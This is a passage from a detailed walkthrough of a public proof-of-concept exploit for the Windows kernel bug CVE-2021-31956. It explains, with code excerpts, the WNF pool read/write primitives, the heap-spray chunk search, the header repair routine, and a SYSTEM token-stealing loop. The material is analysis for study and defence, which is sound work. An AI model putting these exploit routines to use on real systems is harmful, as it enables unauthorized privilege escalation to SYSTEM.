struct _WNF_PROCESS_CONTEXT
{
    struct _WNF_NODE_HEADER Header;                                         //0x0
    struct _EPROCESS* Process;                                              //0x8
    struct _LIST_ENTRY WnfProcessesListEntry;                               //0x10
    VOID* ImplicitScopeInstances[3];                                        //0x20
    struct _WNF_LOCK TemporaryNamesListLock;                                //0x38
    struct _LIST_ENTRY TemporaryNamesListHead;                              //0x40
    struct _WNF_LOCK ProcessSubscriptionListLock;                           //0x50
    struct _LIST_ENTRY ProcessSubscriptionListHead;                         //0x58
    struct _WNF_LOCK DeliveryPendingListLock;                               //0x68
    struct _LIST_ENTRY DeliveryPendingListHead;                             //0x70
    struct _KEVENT* NotificationEvent;                                      //0x80
}; 
```

The `TemporaryNamesListHead` is of type `_LIST_ENTRY` and based on the `_LIST_ENTRY` function prototype, we can assume that this value always points to the next `_WNF_NAME_INSTANCE` unless it is the last `_WNF_NAME_INSTANCE` data structure. In that case, the last `_WNF_NAME_INSTANCE` data structure would contain the same address in both the `head` and `next` variables. As briefly discussed, the `next` variable simply points to the address stored in the `head` variable. This is shown below:

```cpp
PLIST_ENTRY         next = read64(head);
```

Finally, the last variable definition in the `fix_runrefs` is below: 

```cpp
PWNF_NAME_INSTANCE  cur = CONTAINING_RECORD(next, WNF_NAME_INSTANCE, TemporaryNameListEntry);
```

Here, we see that a variable called `cur` is a pointer to a `_WNF_NAME_INSTANCE` structure that contains the data structure pointed to by `TemporaryNameListEntry`. Based on the context of it's use, we can see that the pointer `cur` is used as a way to modify the `RunRef` member of any corrupted `_WNF_NAME_INSTANCE` data structures. We see this in action below: 

```cpp
for (; next != head; next = read64(next), cur = CONTAINING_RECORD(next, WNF_NAME_INSTANCE, TemporaryNameListEntry))
    
    if ((UINT64)read64(&(cur->Header)) != (UINT64)0x0000000000A80903) {
        write64(&(cur->Header), (UINT64)0x0000000000A80903);
        write64(&(cur->RunRef), (UINT64)0x0000000000000000);
    }
```

As shown above, each `_WNF_NAME_INSTANCE` data structure is iteratively pointed to by `cur` and the `Header` member is read. If the `Header` member is not equal to the sane value `0x0000000000A80903`, we then change both the `Header` member and the `RunRef` member to the sane values `0x0000000000A80903` and `0x0000000000000000`, respectively.

Finally, the `fix_runrefs` function outputs an update to the screen and returns the previously defined `status`: 

```cpp
puts("[+] Fixed all overwritten header and runrefs");

return status;
```

### The steal_token Function

According to [MITRE](https://attack.mitre.org/techniques/T1134/), Token Stealing is defined as follows: 

> Adversaries may modify access tokens to operate under a different user or system security context to perform actions and bypass access controls. Windows uses access tokens to determine the ownership of a running process. A user can manipulate access tokens to make a running process appear as though it is the child of a different process or belongs to someone other than the user that started the process. When this occurs, the process also takes on the security context associated with the new token.

With this knowledge, [Mantvydas Baranauskas](https://www.ired.team/offensive-security/privilege-escalation/t1134-access-token-manipulation) provides a high-level overview of how Token Stealing is generally carried out: 

> 1. Open a process with access token you want to steal
> 2. Get a handle to the access token of that process
> 3. Make a duplicate of the access token present in that process
> 4. Create a new process with the newly acquired access token

Now that we know the general process attackers use in Token Stealing, we can adapt that methodology to how the `steal_token` function works. To start things off, let's first examine the `steal_token` function declaration:

```cpp
NTSTATUS steal_token(_In_ PEPROCESS own_eproc)
```

We see that the `steal_token` function takes a single read-only EPROCESS pointer called `own_eproc` and returns an `NTSTATUS` value. We know that `own_eproc` is a pointer to an `EPROCESS` structure since the standard naming convention for pointer variables usually entails the following components: 

* A `P` preceding a structure name.
* The type being in all capital letters. 

Moving on, we will now examine the first variable definition:

```cpp
NTSTATUS            status = STATUS_UNSUCCESSFUL;
```

The first variable, `status` is of type `NTSTATUS` and is initially set to the `STATUS_UNSUCCESSFUL` value `0xC0000001`. However, if the `steal_token` function locates the SYSTEM process (`0x4`), the `status` value will be set to `STATUS_SUCCESS`. The following variable defined, `next` is shown below: 

```cpp
PLIST_ENTRY         next = (PLIST_ENTRY)read64(&(own_eproc->ActiveProcessLinks));
```

The `next` variable is a pointer to a `_LIST_ENTRY` structure which contains the `_LIST_ENTRY` data structure stored in the `ActiveProcessLinks` member of the `own_eproc` input pointer. This is important as `ActiveProcessLinks` can be used recursively to obtain the memory address of the next EPROCESS data structure in memory.

```cpp
PEPROCESS           cur = CONTAINING_RECORD(next, EPROCESS, ActiveProcessLinks);
```

Our next variable, `cur` is a pointer to an EPROCESS structure. According to [Microsoft](https://learn.microsoft.com/en-us/windows/win32/api/ntdef/nf-ntdef-containing_record):

> The `CONTAINING_RECORD` macro returns the base address of an instance of a structure given the type of the structure and the address of a field within the containing structure.

The `CONTAINING_RECORD` macro prototype is: 

```cpp
void CONTAINING_RECORD(
   address,
   type,
   field
);
```

Thus, the `cur` variable is a pointer to an EPROCESS structure that contains the `next` address pointing to the `ActiveProcessLinks` field. Within the `CVE-2021-31956.h` header file, we see that both `EPROCESS` and `ActiveProcessLinks` are defined as part of an abridged version of `_EPROCESS`: 

```cpp
typedef struct
{
    char padding1[0x440];
    UINT64 UniqueProcessId;
    LIST_ENTRY ActiveProcessLinks;
    char padding2[0x60];
    EX_FAST_REF Token;
    char padding3[0x3a8];
    PWNF_PROCESS_CONTEXT WnfContext;
} EPROCESS, *PEPROCESS;
```

Here, we see that the `typedef` is not overwriting the `_EPROCESS` function prototype. Rather, it is simply creating a skeleton to be assigned as `EPROCESS` and by `PEPROCESS`. Now that we have defined all variable assignments within the `steal_token` function, we will now proceed onto the main `for` loop:  

```cpp
for (; cur != own_eproc; next = (PLIST_ENTRY)read64(next), cur = CONTAINING_RECORD(next, EPROCESS, ActiveProcessLinks))
    if ((UINT64)read64(&(cur->UniqueProcessId)) == (UINT64)0x4) {
        write64(&(own_eproc->Token), read64(&(cur->Token)));
        status = STATUS_SUCCESS;
        puts("[+] Stole system token!");
        goto out;
    }
```

Since the `ActiveProcessLinks` structure is a circular doubly-linked list, the `for` loop will terminate if the current EPROCESS is equal to our own EPROCESS. So long as this is not the case, the `next` variable is set to point to the `cur` EPROCESS' `ActiveProcessLinks` address. Then, the `cur` EPROCESS is updated to the EPROCESS pointed to by the `next` variable. This in-turn allows the `for` loop to execute the `if` condition on every EPROCESS in memory. 

The `UniqueProcessId` for the SYSTEM EPROCESS is equal to `0x4`. Therefore, the `if` condition checks if the `cur` EPROCESS has a `UniqueProcessId` of `0x4`. If so, the `Token` member of the `own_eproc` EPROCESS, which is our own EPROCESS, will be overwritten with the `Token` member of the `cur` EPROCESS. The `status` value will then set to `STATUS_SUCCESS` and the `for` loop will break via the `goto out` statement.

If there is no EPROCESS that has a `UniqueProcessId` of `0x4`, a `log_warn` message will be issued and the `STATUS_UNSUCCESSFUL` status will be returned. However, if the `goto out` statement is executed, the program will skip the `log_warn` line and proceed to the `out:` section of code and return the `STATUS_SUCCESS` value:

```cpp
    log_warn("Unable to find system process token");

out:
    return status;
```

### The write_pool Function

To start things off, let's go back to Alex Plaskett's [blog post](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/) and review the work already done in reversing the functionality used to write controlled pool allocations. First off, as we recall, the `AllocatedSize` and `DataSize` members of the `_WNF_STATE_DATA` structure are excellent read/write primitives for any pool allocations made after the corrupted `_WNF_STATE_DATA` structure:

```cpp
struct _WNF_STATE_DATA
{
    struct _WNF_NODE_HEADER Header;                                         //0x0
    ULONG AllocatedSize;                                                    //0x4
    ULONG DataSize;                                                         //0x8
    ULONG ChangeStamp;                                                      //0xc
}; 
```

Now, there exists a user-mode accessible function call named `NtUpdateWnfStateData` that can allocate a `_WNF_STATE_DATA` chunk in the pool. This is done to conduct a heap spray in order to increase the likelihood that the vulnerable NTFS buffer is place right before a `_WNF_STATE_DATA` buffer in memory. With the theory out of the way, let's take a look at the function declaration for `write_pool`:

```cpp
NTSTATUS write_pool(_In_ PWNF_STATE_NAME statenames, _In_ ULONG idx, _In_ char *buf, _In_ ULONG buf_sz)
```

We see that `write_pool` returns an `NTSTATUS` value and takes 4 parameters: 

* `statenames`: A read-only pointer to a `WNF_STATE_NAME` structure. However, based on the usage by the `main` function, `statenames` is a collection of `WNF_STATE_NAME` structures where the index `idx` points to a specific `WNF_STATE_NAME` structure.
* `idx`: A read-only unsigned long value.
* `buf`: A read-only pointer to a character buffer.
* `buf_sz`: A read-only unsigned long value.

Before continuing, it's important to note that the `WNF_STATE_NAME` structure is the target for our read primitive, as with access to the `WNF_STATE_NAME` structure, we can get a pointer to the `WNF_STATE_DATA` buffer which would then allow us to write anywhere in memory.

Let's proceed to the variable initializations:

```cpp
NTSTATUS                status = STATUS_SUCCESS;
UINT64                  name = 0;
```

Let's now define each variable's purpose within `write_pool`:

* `status` is initialized to the value `STATUS_SUCCESS` and is of type `NTSTATUS`.
* `name` is a unsigned 64-bit integer initialized to the value `0`.

Now that the two variables `status` and `name` are initialized, let's proceed to examine how they are updated: 

```cpp
name = (UINT64)(*(UINT64 *)(statenames[idx].Data));
status = _NtUpdateWnfStateData((PCWNF_STATE_NAME)&name, buf, buf_sz, NULL, NULL, 0, 0);
```

We see the following:

* `name` is set to the `Data` field of the `_WNF_STATE_NAME` at the index `idx`.
* `status` is set to the `NTSTATUS` returned by the `_NtUpdateWnfStateData` function call.

Let's further examine the `_NtUpdateWnfStateData` function call. First, we recall the following NULL pointer declaration:

```cpp
NUWSD _NtUpdateWnfStateData = (NUWSD)NULL;
```

As `_NtUpdateWnfStateData` uses a custom datatype, let's look the custom datatype's prototype:

```cpp
typedef NTSTATUS(NTAPI *NUWSD)(
    _In_ PWNF_STATE_NAME StateName,
    _In_reads_bytes_opt_(Length) const VOID *Buffer,
    _In_opt_ ULONG Length,
    _In_opt_ PCWNF_TYPE_ID TypeId,
    _In_opt_ const PVOID ExplicitScope,
    _In_ WNF_CHANGE_STAMP MatchingChangeStamp,
    _In_ ULONG CheckStamp
    );
```

We notice the similarity to the function prototype of `NtUpdateWnfStateData`:

```cpp
NTSTATUS
NTAPI
NtUpdateWnfStateData(
    _In_ PCWNF_STATE_NAME StateName,
    _In_reads_bytes_opt_(Length) const VOID* Buffer,
    _In_opt_ ULONG Length,
    _In_opt_ PCWNF_TYPE_ID TypeId,
    _In_opt_ const PVOID ExplicitScope,
    _In_ WNF_CHANGE_STAMP MatchingChangeStamp,
    _In_ LOGICAL CheckStamp
    );
```

However, in the case of the custom datatype, it appears to simply be used as a means to set up a datatype to then be resolved by `GetProcAddress`. Due to ASLR/kASLR, it is no longer realistic to predict the base address of a function. Therefore, by simply creating a NULL pointer definition, we can define the structure prior to finding the function in memory.


Let's now proceed to the `return` conditions:

```cpp
if (!NT_SUCCESS(status)) {
    log_warn("write_pool::_NtUpdateWnfStateData()1");
    goto out;
}

puts("[+] Successfully updated adjacent WNF_NAME_INSTANCE");

out:
    return status;
```

We notice that if the `_NtUpdateWnfStateData` returns `STATUS_SUCCESS`, `write_pool` simply returns the `status` value `STATUS_SUCCESS` and outputs a `puts` message to the screen. However, if `status` is not equal to `STATUS_SUCCESS`, `write_pool` outputs a `log_warn` message and returns the `status` value. 

#### Sandbox Constraints

One thing to keep in mind is that the `_NtUpdateWnfStateData` function is unavailable when operating in Low Integrity. We will discuss how to bypass this constraint in [Escaping the Sandbox with Y3A's Proof-of-Concept](#escaping-the-sandbox-with-y3as-proof-of-concept).

### The read_pool Function

Next, in order to read from the pool, we will examine how to use `NtQueryWnfStateData` to achieve this. According to [Nacho Gomez](https://pwnedcoffee.com/blog/wnf-chronicles-i-introduction/), we can define the purpose of `NtQueryWnfStateData` as follows:

> Using the NtQueryWnfStateData API, any process can access the latest StateData published for a given StateName at any time (as long as it has read privileges over the StateName’s ACL), without being subscribed.

This goes in-line with the functionality of `read_pool`. Now with the purpose of `read_pool` laid out, let's go over its function declaration:

```cpp
NTSTATUS read_pool(_In_ PWNF_STATE_NAME statenames, _In_ ULONG idx, _Out_ char *buf, _Inout_ PULONG buf_sz)
```

As shown above, the `read_pool` function returns a `NTSTATUS` value and accepts 4 parameters as input. We will now go over the purpose of each parameter: 

* `statenames`: A read-only pointer to a `WNF_STATE_NAME` structure. However, based on the usage by the `main` function, `statenames` is a collection of `WNF_STATE_NAME` structures where the index `idx` points to a specific `WNF_STATE_NAME` structure.
* `idx`: A read-only unsigned long value.
* `buf`: A reference to a character buffer.
* `buf_sz`: A modifiable pointer to a unsigned long value.

With each parameter defined, we will now look at the variable initializations: 

```cpp
NTSTATUS                status = STATUS_SUCCESS;
WNF_CHANGE_STAMP        stamp = 0;
UINT64                  name = 0;
```

We see each of the above variables are initialized to `0`, with both the `stamp` an `name` values being passed as references to the `_NtQueryWnfStateData` function call. Now with the initializations out of the way, let's look at how `read_pool` modifies the `name` variable:

```cpp
name = (UINT64)(*(UINT64 *)(statenames[idx].Data));
```

Here, we see that at index `idx` within the `statenames` collection of `WNF_STATE_NAME` structures allocated in memory, we read the `Data` value. Next, let's examine the usage and background of the `_NtQueryWnfStateData` function call:

```cpp
status = _NtQueryWnfStateData((PCWNF_STATE_NAME)&name, NULL, NULL, &stamp, buf, buf_sz);
if (!NT_SUCCESS(status)) {
    log_warn("read_pool::_NtQueryWnfStateData()1");
    goto out;
}
```

First, let's look at the function prototype for `_NtQueryWnfStateData`: 

```cpp
_NtQueryWnfStateData = (NQWSD)GetProcAddress(ntdll, "NtQueryWnfStateData");
```

Let's examine the function prototype the custom pointer data structure is based on: 

```cpp
typedef NTSTATUS(NTAPI *NQWSD)(
    _In_ PCWNF_STATE_NAME StateName,
    _In_opt_ PCWNF_TYPE_ID TypeId,
    _In_opt_ const VOID *ExplicitScope,
    _Out_ PWNF_CHANGE_STAMP ChangeStamp,
    _Out_writes_bytes_to_opt_(*BufferSize, *BufferSize) PVOID Buffer,
    _Inout_ PULONG BufferSize
    );
```

With the exception of the `_In_opt_` variables which are set to `NULL`, referencing the above prototype, we look at the provided input parameters, we break each one down according to it's purpose: 

* `name`: A read-only address to the `WNF_STATE_NAME` structure at index `idx`. 
* `stamp`: A memory address to our zero-initialized `WNF_CHANGE_STAMP` structure.
* `buf`: An optional pointer to an array of `buf_sz` elements. 

Finally, after calling `NtQueryWnfStateData` the `read_pool` function returns the `NTSTATUS` value from the `NtQueryWnfStateData` function call:

```cpp
out:
    return status;
```

#### Sandbox Constraints

One thing to keep in mind is that the `GetProcAddress` function is unavailable when operating in Low Integrity. We will discuss how to bypass this constraint in [Escaping the Sandbox with Y3A's Proof-of-Concept](#escaping-the-sandbox-with-y3as-proof-of-concept).

### The find_chunk Function

Before delving into the `find_chunk` function, let's first take a look at its implementation within the `main` function:

```cpp
if (!NT_SUCCESS(resolve_symbols()))
        goto out;

if (!NT_SUCCESS(get_eproc(&own_eproc)))
    goto out;

if (!NT_SUCCESS(spray_heap(statenames, SPRAY_COUNT, &buf, sizeof(buf))))
    goto out;

if (!NT_SUCCESS(fragment_heap(statenames, SPRAY_COUNT)))
    goto out;

if (!NT_SUCCESS(overflow_chunk(OVERFLOW_SZ, OVERFLOW_DATA, OVERFLOW_SZ)))
    goto out;

while (!NT_SUCCESS(find_chunk(statenames, SPRAY_COUNT, &buf, &buf_sz, &overflow_idx)))
    if (!NT_SUCCESS(overflow_chunk(OVERFLOW_SZ, OVERFLOW_DATA, OVERFLOW_SZ)))
        goto out;
```

Here we see that after the paged heap is sprayed, fragmented, and overflowed, we then proceed to use the `find_chunk` function. Let's look at the variables used in the function call to `find_chunk`: 

```cpp
//CVE-2021-31956.h
#define SPRAY_COUNT 0x20000
//...
typedef struct _WNF_STATE_NAME
{
    ULONG Data[2];
} WNF_STATE_NAME, *PWNF_STATE_NAME, *PCWNF_STATE_NAME;
//...

//CVE-2021-31956.c
PWNF_STATE_NAME         statenames = zalloc(SPRAY_COUNT * sizeof(WNF_STATE_NAME));
char                    buf[0xa0] = { 0 };
ULONG                   buf_sz = sizeof(buf);
ULONG                   overflow_idx = 0;
//...
```

Let's now summarize the purpose of `find_chunk` with relation to how the key variable and structural definitions are used: 

> The `statenames` pointer is iterated over at index 0 in order to obtain the `statenames` index at which the overflow occurs. Once the overflow is found, the `overflow_idx` is returned, containing the `WNF_STATE_NAME` index that is found to be overflowed.

With the summary out of the way, let's examine the `find_chunk` function line-by-line starting with the function declaration:

```cpp
NTSTATUS find_chunk(_In_ PWNF_STATE_NAME statenames, _In_ UINT64 count, _Out_ char *buf, _Inout_ PULONG buf_sz, _Out_ PULONG idx)
```

Let's formally break down each of the input parameters for the `find_chunk` function: 

* `statenames`: A read-only pointer to a series of `WNF_STATE_NAME` structures. Of which, one of the structures may be overflowed as thus exploitable.
* `count`: A read-only 64-bit unsigned integer specifying the number of `WNF_STATE_NAME` structures sprayed.
* `buf`: A reference to the sprayed buffer.
* `buf_sz`: A modifiable pointer to a unsigned long value indicating the size of the sprayed buffer `buf`.
* `idx`: A pointer to the unsigned long value location for the index of the overflowed `WNF_STATE_NAME` structure.

Now that we have defined the input parameters of the `find_chunk` function, let's now examine the variable declarations for `find_chunk`: 

```cpp
NTSTATUS                status = STATUS_SUCCESS;
WNF_CHANGE_STAMP        stamp = 0;
UINT64                  name = 0;
int                     overflow = -1;
```

As with the input parameters, let's formally define the use of each of the variables defined: 

* `status`: A `NTSTATUS` value used to determine whether or not a `WNF_STATE_DATA` structure was found to be overflowed.

Before in order to fully understand the `stamp` variable that defined next, let's examine the `WNF_CHANGE_STAMP` data structure: 

```cpp
typedef ULONG WNF_CHANGE_STAMP, *PWNF_CHANGE_STAMP;
```

We see that the `stamp` is really just a unsigned long value. However, in the context of the `find_chunk` function, stamp is used as part of the `_NtQueryWnfStateData` function call. Therefore, let's examine the NULL-pointer declaration for `_NtQueryWnfStateData`:

```cpp
_NtQueryWnfStateData = (NQWSD)GetProcAddress(ntdll, "NtQueryWnfStateData");
```

With this in mind, let's now look at the type definition for `NQWSD`:

```cpp
typedef NTSTATUS(NTAPI *NQWSD)(
    _In_ PCWNF_STATE_NAME StateName,
    _In_opt_ PCWNF_TYPE_ID TypeId,
    _In_opt_ const VOID *ExplicitScope,
    _Out_ PWNF_CHANGE_STAMP ChangeStamp,
    _Out_writes_bytes_to_opt_(*BufferSize, *BufferSize) PVOID Buffer,
    _Inout_ PULONG BufferSize
    );
```

We see that the `stamp` variable used is actually a reference for the `_NtQueryWnfStateData` function call to output the `ChangeStamp` value to. In layman's terms, the `stamp` variable is used by the `find_chunk` function to hold the `ChangeStamp` value of every `WNF_STATE_NAME` iterated. Each `ChangeStamp` value stored in `stamp` will then be checked for the magic value of `0x5000`. If found, `find_chunk` will return a `NTSTATUS` value of `STATUS_SUCCESS`. If not, `find_chunk` will return a value of `STATUS_UNSUCCESSFUL`. 

Let's now proceed to the final two variables defined in `find_chunk`:

* `name`: A unsigned integer, initialized to 0, that contains a pointer to the `Data` member of each `WNF_STATE_NAME`. When used by `_NtQueryWnfStateData`, it will serve as a reference to the specific `WNF_STATE_NAME` used by `find_chunk` to test if the `ChangeStamp` value has been corrupted or not. 
* `overflow`: A integer, initialized to -1, that will be set to the index of the corrupted `WNF_STATE_NAME` if found.

With both the function declaration and the variable definitions examined, let's now look into the `for` loop used to iterate over each `WNF_STATE_NAME` structure created during the heap spray:

```cpp
for (int i = 0; i < count; i++)
{
    if (!statenames[i].Data[0])
        continue;
        //...
}
```

The `for` loop starts by first checking if the `Data` member is valid. If it is not, continue to the next `WNF_STATE_NAME` chunk.

```cpp
for (int i = 0; i < count; i++)
{
    //...
    name = (UINT64)(*(UINT64 *)(statenames[i].Data));
    //...
}
```

Here, the `name` variable is pointed to the `Data` member of the ith `WNF_STATE_NAME` chunk.

```cpp
for (int i = 0; i < count; i++)
{
    //...
    status = _NtQueryWnfStateData((PCWNF_STATE_NAME)&name, NULL, NULL, &stamp, buf, buf_sz);
    //...
}
```

Next, the `NtQueryWnfStateData` function is called in order to obtain the `ChangeStamp` value of the ith `WNF_STATE_NAME` chunk. 

```cpp
for (int i = 0; i < count; i++)
{
    //...
    if ((ULONG)stamp == 0x5000) {
        overflow = i; // found our overflow chunk index
        printf("[+] Successfully overflowed into a WNF_STATE_DATA chunk at index 0x%x\n", overflow);
        break;
    }
    //...
}
```

The `ChangeStamp` value is then checked against the magic number `0x5000` to determine if the `WNF_STATE_NAME` is corrupted. If the `ChangeStamp` is equal to `0x5000`, the `overflow` variable is set to the index `i` and the `for` loop is broken.

```cpp
for (int i = 0; i < count; i++)
{
    //...
    if (!NT_SUCCESS(status)) {
        log_warn("find_chunk::_NtQueryWnfStateData()1");
        goto out;
    }
}
```

However, if the `NTSTATUS` variable `status` is not equal to `STATUS_SUCCESS`, the program breaks and goes to the `out` designated portion of the program. In other words, if the `NtQueryWnfStateData` function call fails for whatever reason, the program breaks and goes to `out`. 

```cpp
if (overflow == -1) {
    // means we corrupted a wnf name instance instead of name header, should overflow again.
    // we will fix these corrupted wnf name instances in the end.
    log_warn("Did not overflow a WNF_STATE_DATA chunk, overflow again!");
    status = STATUS_UNSUCCESSFUL;
    goto out;
}
else
    status = STATUS_SUCCESS;
```

After the `for` loop completes, if the `overflow` variable is not set to the ith index, the corrupted `WNF_STATE_DATA` chunk was not found and the `NTSTATUS` variable `status` is set to `STATUS_UNSUCCESSFUL` and the program goes to `out`. However, if the `overflow` variable was set to the ith index of the `WNF_STATE_DATA` chunks, the program sets the `status` variable to `STATUS_SUCCESS`. 

```cpp
*idx = overflow;

out:
    return status;
```

The pointer `idx` is set to the corrupted `WNF_STATE_DATA` index and the `status` is returned to the callee.


# References

* [Rapid7's Blog](https://www.rapid7.com/blog/post/2019/06/12/heap-overflow-exploitation-on-windows-10-explained/)
* [Alex Ionescu's Blog](https://web.archive.org/web/20191229080007/https://gracefulbits.com/2018/08/13/find-which-process-is-using-the-microphone-from-a-kernel-mode-driver/)
* [Gabrielle Viala's Blog](https://blog.quarkslab.com/playing-with-the-windows-notification-facility-wnf.html)
* [Alex Plaskett's Blog](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/)
* [Jan Vojtesek's Blog](https://decoded.avast.io/janvojtesek/exploit-kits-vs-google-chrome/)
* [Y3A's Blog](https://y3a.github.io/2022/09/03/cve-2021-31956/)
* [Y3A's Proof-of-Concept](https://github.com/Y3A/CVE-2021-31956)